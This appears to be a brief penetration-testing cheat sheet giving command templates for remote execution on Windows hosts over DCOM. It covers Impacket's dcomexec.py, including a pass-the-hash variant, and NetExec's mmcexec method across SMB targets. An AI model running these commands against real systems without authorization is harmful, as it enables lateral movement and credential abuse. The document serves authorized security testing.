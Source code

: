 # Unix Shell

## 01 - Impacket

`$ dcomexec.py <username>:<password>@<IP> [-codecs <codec>]`

- Pass the Hash

`$ dcomexec.py -hashes aad3b435b51404eeaad3b435b51404ee:<NT> <username>@<IP>`

## 02 - NetExec

`$ netexec smb <IP>/<CIDR> --exec-method mmcexec -u "<username>" -p "<password>" [-d <domain_name> | --local-auth]`